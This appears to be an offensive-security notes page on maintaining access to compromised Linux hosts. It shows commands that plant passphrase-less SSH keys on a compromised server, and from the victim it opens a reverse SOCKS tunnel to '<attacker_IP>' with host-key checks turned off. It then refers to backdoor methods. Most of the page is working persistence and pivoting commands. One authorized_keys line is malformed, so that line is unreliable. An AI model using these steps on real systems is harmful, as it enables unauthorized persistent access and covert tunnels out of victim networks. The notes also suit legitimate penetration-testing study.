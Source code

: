 # Living off the Land

Search Tag(s): #maintaining-access #persistence #linux

## 01 - Copy SSH Key Remotely

Generate an SSH key without any passphrase.

```
userware@hackware-os:~$ ssh-keygen -qt rsa -b 4096 -f ~/.ssh/id_rsa -C '' -N ''

userware@hackware-os:~$ ssh-keygen -qt ed25519 -f ~/.ssh/id_ed25519 -C '' -N ''
```

Copy the SSH public key to the compromised SSH server. It may prompt you a password to enter.

```
userware@hackware-os:~$ ssh-copy-id [-p <PORT>] -i ~/.ssh/id_rsa.pub -f <username>@<target_IP>
/usr/bin/ssh-copy-id: INFO: Source of key(s) to be installed: "/home/userware/.ssh/id_rsa.pub"
<username>@<target_IP>'s password:

Number of key(s) added: 1

Now try logging into the machine, with:   "ssh [-p '<PORT>'] '<username>@<target_IP>'"
and check to make sure that only the key(s) you wanted were added.
```

Authenticate it with the SSH key.

```
$ ssh [-p <PORT>] -i ~/.ssh/id_rsa <username>@<target_IP>
```

## 02 - Generate SSH Key Locally

Create a temp directory.

```
$ mkdir /tmp/keys/
```

Generate an SSH key inside a temporary directory without any passphrase in a compromised system.

```
$ ssh-keygen -qt rsa -b 4096 -f /tmp/keys/id_rsa -C '' -N ''

$ ls /tmp/keys/
id_rsa  id_rsa.pub
```

Copy the SSH key while in the non-interactive shell.

```
$ cat /tmp/keys/id_rsa.pub
```

Paste it in the `authorized_keys` and include restrictions to circumvent security risks.

```
userware@hackware-os:~$ touch ~/.ssh/authorized_keys

userware@hackware-os:~$ cat ~/.ssh/authorized_keys
from="<compromised_system_IP>",command="command="echo 'Only for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty, <ssh_public_key_contents>

userware@hackware-os:~$ chmod 600 ~/.ssh/authorized_keys
```

Authenticate to the SSH server (the attacker).

```
$ ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" <username>@<attacker_IP>
```

Confirm the compromised machine has established connection via SSH with a reverse dynamic port forwarding.

```
userware@hackware-os:~$ ss -antpl
```

Once everything has been completed. You can use any of the backdoor methods that are suitable for reverse SSH.

---
## References

- [[01 - Command Line/A - Operating Systems/Linux/Unix Shell/Basic Commands/02 - File and Directory Manipulation|Command Line: Unix File and Directory Manipulation]]

- [[04 - Remote Port Forwarding|Pivoting: SSH Remote Port Forward]]

- [[Linux Post Exploitation Persistence References]]